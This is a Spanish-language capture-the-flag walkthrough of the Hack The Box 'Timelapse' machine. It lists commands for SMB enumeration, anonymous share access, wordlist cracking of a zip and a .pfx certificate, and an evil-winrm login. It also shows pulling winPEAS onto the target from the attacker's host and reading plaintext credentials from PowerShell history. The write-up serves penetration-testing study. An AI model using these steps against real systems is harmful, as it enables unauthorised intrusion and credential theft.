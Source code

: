 ```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#reconocimiento">Reconocimiento</a>
- <a href="#escaneo">Escaneo</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
  
  Esta maquina es una de las faciles que ofrece HTB (hack the box), para ir comenzando en el mundo del pentest, es bueno ir documentando los pasos que se han tomado para lograr capturar las flags de objetivo de las maquinas

## [](#header-2)<a id="about_monero">Reconocimiento</a>

### [](#header-3)PING
En esta etapa, verificamos la conectividad con la maquina, escaneo de puertos y reconocimiento de servicios activos en los servicios.
**PING** Comunmente se utiliza un ping para verificar la comunicacion con la maquina a la que se realizara la prueba, pero el ping en linux esta en un loop infinito, hasta que se corta el proceso del comando. Es por ello que utilizaremos un ping discreto:

```s
ping -c 2 10.10.11.152
#ttl=63 o 64 significa que la maquina es linux
#ttl=127 o 128 significa que es windows
```
![Ping discreto](/assets/images/Timelapse/ping_discreto.png)

## [](#header-2)<a id="escaneo">Escaneo</a>

### [](#header-3)NMAP
**NMAP** Esta herramienta es utilizada por los administradores de redes para hacer un escaneo rapido y dependiendo de sus parametros de configuracion, profundizar en la busqueda de informacion. 
*Nota* Es importante no depender de esta herramienta ya que el escaneo es agresivo y en un entorno controlado, se pueden activar alarmas de intruision.
Para esta maquina, utilizaremos el siguiente comando:

```s
nmap -vvv -Pn -sCV -T4 -p0-65535 --reason -oN Timelapse.nmap 10.10.11.152
# -T4 o T5 para la velocidad de escaneo 
# -p0-65535 para una búsqueda en todos los puertos
# -vvv para visualizar las tareas que va completando(Esto es útil, por si llegamos a reconocer algún servicio explotable)
# -p0-65535 Para establecer el rango de puertos de busqueda
# -sCV es la combinacion de los comandos sC que es para el escaneo con scripts por default de nmap y sV que es para sondear los puertos abiertos
# -oN es la salida en el formato que establezcamos que comunmente es .nmap o podria ser en un .xml
# -O es para la deteccion del Sistema Operativo 
```

![nmap output](/assets/images/Timelapse/nmap_out.png)

Buscaremos si existen vulnerabilidades registradas en el sistema con la herramienta nmap y los scripts específicos de análisis para el protocolo samba:
La ruta especifica y filtrado del servicio que usaremos para la búsqueda y visualizarlos es:

```s
ls /usr/share/nmap/scripts | grep smb-vuln
```

![nmap specific search](/assets/images/Timelapse/nmap_specific.png)

El comando nos muestra que es vulnerable, y se cuenta con un CVE, con el cual habría que desarrollar una herramienta donde se use el buffer overflow y ejecutar un exploit diseñado para el sistema operativo.

## [](#header-2)<a id="gain_access">Gain Access</a>

### [](#header-3)Domain integration
**Integracion en dominio del servidor** Despues del escaneo, es posible descubrir algunos dominios del servidor, para poder establecer una comunicacion correcta con los servicios nos integraremos con los dominios encontrados. Modificando el archivo que se encuentra en /etc/hosts para poder editarlo y relacionar la IP de la maquina con el dominio encontrado. 
*Nota* A lo largo de la prueba, se pueden encontrar mas dominios asociados a la ip y sera necesario regresar a este archivo para modificarlo.

```s
nano /etc/hosts
```
![Integracion de maquina en el dominio](/assets/images/Timelapse/domain_integration.png)

Notamos que el puerto 445 esta expuesto, normalmente usado para el servicio smb de Windows y a continuacion utilizaremos otras herramientas para verificarlo.

Ocuparemos la herramienta enum4linux para obtener algunos usuarios por el servicio de smb

```s
enum4linux -a 10.10.11.152
```

![enum4linux output](/assets/images/Timelapse/enum_view.png)

Con el siguiente comando, descubriremos algunos directorios compartidos que no tienen contrasenas

```s
smbclient --no-pass --list=10.10.11.152
```

![smb no pass output](/assets/images/Timelapse/smb_output1.png)

Para conectarnos al rpc y obtener mas informacion, utilizaremos el siguiente comando y en la imagen adjunta hay otros comandos que podrian ser de ayuda en la recopilacion de informacion.

```s
rpcclient -U "" -N 10.10.11.152
```

![rpc output](/assets/images/Timelapse/rpc_output.png)

Aplicaremos el siguiente comando para intentar establecer un acceso a un directorio en el que no tenemos acceso

```s
smbclient -U 'ANONYMOUS LOGON' -N \\\\10.10.11.152\\Share
```

Obtuvimos acceso, y ahora podemos descargar un archivo .zip con contrasena y dentro que un archivo cifrado dentro del directorio Dev
- Usamos el comando get para descargar el archivo .zip 

![Archivos descargados](/assets/images/Timelapse/files_downloaded1.png)

Usaremos una herramienta llamada frackzip, la cual se utiliza para descomprimir archivos zip, y para abrirlos por fuerza bruta, en este caso usaremos una wordlist que tiene integrado Kali:

```s
sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip”
```

![frackzip usage](/assets/images/Timelapse/fcrackzip.png)
La contraseña encontrada es supremelegacy, al encontrar contraseñas que parecen haber sido creadas por personas y no por algún algoritmo, nos damos cuenta de que la complejidad de las contraseñas no es alta.

Para romper con la seguridad de estos archivos, utilizaremos una herramienta obtenida de:
https://github.com/crackpkcs12/crackpkcs12.git
Para su instalación, utilizaremos los comandos:

```s
sudo apt install libssl-dev
sudo ./configure
make    
```

El comando que utilizaremos, para volver a usar la wordlist, es:

```s
crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx
```

![crackpkcs12 usage](/assets/images/Timelapse/crackpkcs12.png)

La contraseña encontrada es thuglegacyy, esta la usaremos para ingresar en el servicio y generar una llave privada llamada priv.key y cert.crt

El comando que utilizaremos para establecer la conexion con el servicio, utilizar las credenciales obtenidas y despues ingresar la contrasena del archivo .pfx que anteriormente obtuvimos, por medio de openssl es:

```s
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
```

![Openssl example](/assets/images/Timelapse/openssl_prv.png)


Después será necesario generar un certificado cl e igualmente lo podemos generar con openssl

```s
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
#ingresamos nuevamente la contraseña thuglegacyy
```

A continuacion, estableceremos la conexion, usando nuestra prv.key y el certificado cert.crt con:

```s
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
``` 

![Evil win output](/assets/images/Timelapse/evil-win.png)

Una vez dentro, navegamos al Escritorio, y con el comando 'type' podremos leer la flag 

![First flag](/assets/images/Timelapse/flag1.png)

## [](#header-2)<a id="privilege_scalation">Escalamiento de privilegios</a>
Despues del paso anterior, utilizaremos la siguiente herramienta para automatizar un poco el proceso de recopilacion de informacion y poder escalar privilegios mas rapido. ases/download/20220410/winPEASx64.exe

Abrimos un servicio http para poder descargarnos el archivo desde la maquina

```py
python3 -m http.server 80
```

![Python http server](/assets/images/Timelapse/python_http.png)

Con PowerShell, ejecutamos el siguiente comando para hacer la descarga

```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.153/winPEASx64.exe -OutFile winPEASx64.exe
```

![Uploading winPEAS tool](/assets/images/Timelapse/winpeas64.png)

Ejecutamos la herramienta y ahora sabemos que en el servicio de PowerShel, que se encuentra en la siguiente ruta, es vulnerable y quizas aqui encontremos credenciales para escalar privilegios.

```s
Users/legacyy/AppData/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
``` 

Nos descargamos el archivo de historia de comandos y lo visualizamos

![Powershell history](/assets/images/Timelapse/pwshell_history.png)

Historial de comandos, tambien hay algo interesante, en la parte de as a plain text nos muestra una contrasena y un usuario en texto plano

![Openning Powershell history](/assets/images/Timelapse/openning_pwshell_history.png)

LDAP es un protocolo de acceso para los servicios del directorio activo, y es el que utilizaremos para continuar navegando en la maquina intentando escalar los privilegios

![LDAP connection](/assets/images/Timelapse/ldap_conection.png)

Leemos la ultima bandera, con la contrasena que hemos obtenido; que igualmente se encuentra en el escritorio y habremos terminado la maquina
